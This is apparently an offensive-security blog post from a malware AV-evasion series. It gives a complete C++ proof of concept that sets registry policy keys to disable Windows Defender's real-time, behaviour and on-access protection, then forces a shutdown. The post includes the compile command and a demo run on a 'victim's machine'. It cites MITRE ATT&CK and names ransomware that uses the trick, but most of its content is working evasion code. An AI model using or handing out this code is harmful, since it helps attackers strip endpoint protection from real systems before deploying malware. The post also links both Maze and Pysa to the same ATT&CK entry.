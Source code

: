 \newpage
\subsection{60. malware AV evasion: part 7. Disable Windows Defender. Simple C++ example.}

﷽

![av](./images/57/2022-06-05_12-21.png){width="80%"}    

This post is the result of self-researching one of the most common tricks in the malware in the wild.

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
"SOFTWARE\\Policies\\Microsoft\\Windows Defender", 
0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, 
  REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, 
  REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), 
  TOKEN_QUERY, 
  &token)) {
    if (GetTokenInformation(token, TokenElevation, 
    &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, 
  KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, 
    REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 
    0, REG_OPTION_NON_VOLATILE, 
    KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 
    0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\n");
  printf("press any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:    

![av](./images/57/2022-06-05_12-19.png){width="80%"}    

and check registry keys:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](./images/57/2022-06-05_12-15.png){width="80%"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe \
-I/usr/share/mingw-w64/include/ -s -ffunction-sections \
-fdata-sections -Wno-write-strings -fno-exceptions \
-fmerge-all-constants -static-libstdc++ \
-static-libgcc -fpermissive
```

![av](./images/57/2022-06-05_12-03.png){width="80%"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

![av](./images/57/2022-06-05_12-17.png){width="80%"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:    

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](./images/57/2022-06-05_12-20.png){width="80%"}    

![av](./images/57/2022-06-05_12-20_1.png){width="80%"}    

For correctness, check via Windows Defender Security Center:    

![av](./images/57/2022-06-05_12-22.png){width="80%"}    

![av](./images/57/2022-06-05_13-17.png){width="80%"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0449/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0449/)     
[source code on github](https://github.com/cocomelonc/2022-06-05-malware-av-evasion-7)    
